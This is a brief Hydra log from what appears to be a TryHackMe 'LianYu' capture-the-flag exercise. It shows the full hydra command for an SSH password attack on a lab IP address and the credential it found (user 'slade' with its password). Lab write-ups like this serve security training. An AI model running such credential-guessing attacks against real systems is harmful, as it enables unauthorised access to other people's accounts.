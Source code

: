 # Hydra v9.5 run at 2024-11-20 14:37:46 on 10.10.207.39 ssh (hydra -L ssh_users.md -p M3tahuman -e nsr -o /opt/THM/LianYu/2-enum/ftp/hydra_ssh.md ssh://10.10.207.39)
[22][ssh] host: 10.10.207.39   login: slade   password: M3tahuman
